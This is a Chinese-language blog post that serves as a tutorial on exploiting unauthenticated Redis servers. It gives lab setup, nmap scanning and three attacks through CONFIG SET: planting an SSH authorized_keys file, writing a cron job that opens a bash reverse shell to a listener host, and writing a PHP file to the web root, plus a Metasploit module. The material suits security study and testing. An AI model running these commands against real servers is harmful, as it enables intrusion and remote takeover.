 ```yaml
---
layout: post
cover: 'assets/images/cover3.jpg'
title: Redis未授权访问
date:   2018-07-01
tags: web
subclass: 'post'
navigation: True
logo: 'assets/images/ghost.png'
---
```


- 环境搭建
- 漏洞概述
- 漏洞扫描
- 漏洞利用

---
### 0x00 环境搭建


#### (1)下载安装

```
cd /tmp
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
tar xzf redis-2.8.17.tar.gz
cd redis-2.8.17
make

cd src
./redis-server
```

#### (2)远程连接

Kali：

```
./redis-cli -h 192.168.111.135
```

Windows：

下载地址：

https://github.com/dmajkic/redis/downloads

```
.\redis-cli -h 192.168.111.135
```

#### (3)常用命令

查看所有键：

```
KEYS *
```

将变量x的值设为test：

```
set x "test"
```

获取默认的redis目录：

```
CONFIG GET dir
```

获取rdb文件名：

```
CONFIG GET dbfilename
```

---
### 0x01 漏洞概述


默认情况下，Redis会绑定在 0.0.0.0:6379，并且对公网开放，不需要密码认证

攻击者可以借此未授权访问Redis以及读取Redis的数据，利用Redis自身的提供的config命令可以进行写文件操作

具体有以下利用方式：

- 写入ssh公钥远程连接
- 写入计划任务反弹shell
- 写入webshell

---
### 0x02 漏洞扫描

#### 1、手工验证

```
.\redis-cli -h 192.168.111.135
```

输入`INFO server`，有回显，代表存在漏洞

#### 2、批量扫描

```
nmap -v -n -Pn -p 6379 -sV --scriptredis-info 192.168.111.1/24
```

redis-info为nmap专用于检查该漏洞的插件，kali下默认包含

---
### 0x03 漏洞利用


#### (1)写入ssh公钥远程连接

利用条件：

- redis服务使用root账号启动
- redis服务无密码认证或者使用的是弱口令进行认证
- 服务器开放了ssh服务，而且允许使用密钥登录

在本地生成公私钥文件：

```
ssh-keygen –t rsa
```

生成公钥文件：`~/.ssh/id_rsa.pub`

生成私钥文件：`~/.ssh/id_rsa`

将公钥写入 foo.txt 文件:

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

连接redis写入文件:

```
cat foo.txt | redis-cli -h 192.168.111.135 -x set crackit
redis-cli -h 192.168.111.135
config set dir /root/.ssh/
config set dbfilename "authorized_keys"
save
```

通过ssh远程连接：

```
ssh –i  id_rsa root@192.168.111.135
```

####  (2)写入计划任务反弹shell

使用telnet远程登录redis

```
telnet 192.168.111.135 6379
```

添加计划任务：

```
config set dir /var/spool/cron/
set -.- "\n\n\n* * * * * bash -i &gt;& /dev/tcp/192.168.236.129/9999 0&gt;&1\n\n\n"
```

本地执行nc监听端口：

```
nc -v -l -p 9999
```

#### (3)写入webshell

利用条件：

- redis服务无密码认证或者使用的是弱口令进行认证
- 支持web并且知道路径


在路径/home/wwwroot/default/写入webshell redis.php：

```
config set dir /home/wwwroot/default/
config set dbfilename redis.php
set webshell "<?php phpinfo(); ?>"
save
```


#### 补充1：如果通过set写入失败

先查看当前有哪些键：

```
KEYS *
```

查看某个键：

```
GET "phptest"
```

删除某个键：

```
DEL "phptest"
```

删除其他影响写入信息的键，并且需要关闭压缩功能：

```
CONFIG SETrdbcompression no
```

#### 补充2：利用msf

```
use auxiliary/scanner/redis/file_upload
set DISABLE_RDBCOMPRESSION yes
setRHOSTS 192.168.111.135
setRemoteFile /tmp/webshell
setLocalFile /home/test.txt
run
```


